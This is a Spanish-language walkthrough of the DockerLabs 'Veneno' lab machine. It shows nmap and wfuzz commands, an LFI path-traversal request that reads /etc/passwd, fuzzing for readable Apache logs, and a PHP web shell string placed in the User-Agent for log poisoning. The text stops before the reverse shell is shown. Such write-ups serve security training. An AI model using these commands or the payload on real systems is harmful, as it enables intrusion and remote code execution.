 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneo/V_10.png)     

Ahora modificaremos el campo User Agent con la cadena:  

<?php system($_GET['cmd']); ?>  









